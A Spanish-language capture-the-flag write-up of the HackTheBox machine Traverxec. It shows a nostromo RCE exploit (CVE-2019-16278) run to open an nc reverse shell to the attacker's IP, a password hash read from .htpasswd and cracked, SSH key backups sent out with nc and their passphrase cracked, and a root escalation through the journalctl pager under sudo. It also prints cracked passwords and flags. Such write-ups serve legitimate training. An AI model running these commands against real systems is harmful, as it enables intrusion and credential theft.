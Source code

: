 ```yaml
---
title: HackTheBox - Traverxec
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE (CVE-2019-16278)', 'Information Leakage', Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Traverxec/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Traverxec Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **RCE (CVE-2019-16278), Information Leakage, Misconfiguration**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Traverxec`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Traverxec/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Traverxec/02-versions.png)



    * Al buscar por vulnerabilidades de **`nostromo 1.9.6`** encontramos [CVE-2019-16278](https://www.exploit-db.com/exploits/47837), con el cual logramos un **RCE (Remote Command Execution)**

    ```bash
    python2 nostromo_rce.py 10.10.10.165 80 'id'
    <SNIP>
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

c. Como ya podemos ejecutar comandos entablamos una **`reverse shell`**, nos ponemos en escucha con **`nc`** previamente.

```bash
python2 nostromo_rce.py 10.10.10.165 80 'nc -e bash 10.10.14.115 443'
----------------------------------------------------------------------
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.115] from (UNKNOWN) [10.10.10.165] 54542
script /dev/null -c bash
www-data@traverxec:/usr/bin$
```

### Escalada de Privilegios 💹

a. Existe **david** como usuario en el sistema

```bash
www-data@traverxec:/home$ ls 
david
```

b. Investigamos por archivos que tengan como propietario al usuario **www-data**

```bash
find / -user www-data 2>/dev/null | grep -vE "proc"

<SNIP>
/var/nostromo/logs
/var/nostromo/logs/nhttpd.pid
```

* En el directorio **/var/nostromo/conf** podemos ver archivos de configuración de **nostromo**

    * **nhttpd.conf**

        ```
        # MAIN [MANDATORY]
        servername              traverxec.htb
        serverlisten            *
        serveradmin             david@traverxec.htb
        serverroot              /var/nostromo
        servermimes             conf/mimes
        docroot                 /var/nostromo/htdocs
        docindex                index.html

        # LOGS [OPTIONAL]
        logpid                  logs/nhttpd.pid

        # SETUID [RECOMMENDED]
        user                    www-data

        # BASIC AUTHENTICATION [OPTIONAL]
        htaccess                .htaccess
        htpasswd                /var/nostromo/conf/.htpasswd

        # ALIASES [OPTIONAL]
        /icons                  /var/nostromo/icons

        # HOMEDIRS [OPTIONAL]
        homedirs                /home
        homedirs_public         public_www
        ```

        > Añadimos el dominio **traverxec.htb** a nuestro archivo **/etc/hosts**
        {: .prompt-info }

* En el archivo **.htpasswd** vemos la contraseña del usuario **david**

    ```bash
    www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
    david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
    ```
    > Al crackearla con **john** vemos que en texto plano es **`Nowonly4me`**

c. Si leemos un poco de documentación sobre [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), observamos que podemos acceder directorios de esta forma **`~[Directorio]`** y en caso de necesitar auntenticación debemos acceder a **.htaccess**

* Después de intentar de varias formas, ninguna funciona

    ```bash
    http://david:Nowonly4me@traverxec.htb/~david/
    http://traverxec.htb/~david/
    http://traverxec.htb/~david/.htaccess
    http://david:Nowonly4me@traverxec.htb/~david/.htaccess
    ```


    ![](/assets/images/HTB/Easy/Traverxec/03-message.png)

    > Mensaje de la página web.

d. En el archivo **nhttpd.conf** existe la configuración 

```bash
homedirs                /home
homedirs_public         public_www
```

* Esto nos indica que los directorios a los que podemos acceder con **nostromo** son todos los que están en **home** (Direcctorio del usuario **david**) y que tiene un directorio accesible **public_www**

    ```bash
    www-data@traverxec:/home$ cd david/public_www
    www-data@traverxec:/home/david/public_www$ ls
    index.html  protected-file-area
    www-data@traverxec:/home/david/public_www$ cd protected-file-area/
    www-data@traverxec:/home/david/public_www/protected-file-area$ ls
    backup-ssh-identity-files.tgz
    ```

e. Tranferimos el archivo **backup-ssh-identity-files.tgz** a nuestra **Máquina Atacante**

* **Máquina Atacante:** nc -lvnp 4444 > backup.tgz
* **Máquina Víctima:** nc <tun0 IP> 4444 < backup-ssh-identity-files.tgz

Descomprimos el fichero **tar -xzvf backup.tgz** y encontramos los pares de claves **RSA** del usuario **david**, pero la clave está encriptada, así que extraemos el **hash** con **`ssh2john id_rsa > hash`**

```bash
john hash -w=/home/kali/Desktop/rockyou.txt
id_rsa:hunter
```
> Contraseña en texto claro del fichero **id_rsa**

f. Nos autenticamos en el servicio **ssh** y vemos que tenemos un directorio **/bin**

```bash
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
```

* **server-status.sh**

    ```bash
    <SNIP>
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
    ```
    > Tenemos permiso para ejecutar **journalctl** como **root**

g. Para "forzar" la paginación de **journalctl** y podemos ejecutar comandos tenemos que minizar el tamaño de nuestra terminal

![](/assets/images/HTB/Easy/Traverxec/04-binary.png)

Por último leemos las **flags**

```bash
root@traverxec:/home/david/bin# cat /root/root.txt 
304e9063bbeecd398b1e260aeb580033
root@traverxec:/home/david/bin# cat /home/david/user.txt 
8340b5984d36a505da9adc72f1681260
```